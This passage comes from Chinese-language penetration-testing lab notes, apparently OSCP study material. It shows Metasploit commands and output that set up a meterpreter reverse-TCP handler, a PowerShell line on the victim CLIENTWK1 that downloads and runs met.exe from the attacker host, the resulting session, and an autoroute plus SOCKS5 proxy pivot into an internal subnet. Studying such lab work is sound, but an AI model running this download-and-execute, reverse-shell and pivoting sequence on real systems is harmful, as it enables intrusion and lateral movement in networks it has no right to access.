 ```
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.45.214
LHOST => 192.168.45.214
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/handler) > 
[*] Started reverse TCP handler on 192.168.45.214:443 

```
> `set ExitOnSession false`: 設定為 false，multi/handler 會一直保持運行，即使已有 session 連線，也會繼續等待新的連線\
> `run -j`: background job 讓 handler 在背景執行，不會影響 Metasploit console
#### 3.2 在 CLIENTWK1 下載並執行
```
PS C:\Users\marcus> iwr -uri http://192.168.45.214:8000/met.exe -Outfile met.exe
iwr -uri http://192.168.45.214:8000/met.exe -Outfile met.exe
PS C:\Users\marcus> .\met.exe
.\met.exe
```
msfconsole 收到 reverse shell
```
msf6 exploit(multi/handler) > 
[*] Started reverse TCP handler on 192.168.45.214:443 
[*] Sending stage (201798 bytes) to 192.168.117.242
[*] Meterpreter session 1 opened (192.168.45.214:443 -> 192.168.117.242:62790) at 2025-03-18 14:02:09 -0400
```
#### 3.3  在 Metasploit 建立 SOCKS5 Proxy
1. 自動設定內部路由 (autoroute)
```
msf6 exploit(multi/handler) > use multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set session 1
session => 1
msf6 post(multi/manage/autoroute) > run

[*] Running module against CLIENTWK1
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.16.73.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
```
> autoroute modulw 會自動分析 `CLIENTWK1` 連接的內部網段\
發現 CLIENTWK1 連接到 172.16.73.0/24，並自動建立路由\
現在 Kali 可以透過 CLIENTWK1 存取 172.16.73.0/24 內網

2. 建立 SOCKS5 Proxy
```
msf6 post(multi/manage/autoroute) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > set VERSION 5
VERSION => 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Auxiliary module running as background job 1.
msf6 auxiliary(server/socks_proxy) > 
[*] Starting the SOCKS proxy server

```
> 啟動 SOCKS5 代理伺服器，讓 Kali 透過 CLIENTWK1 來存取 172.16.73.0/24\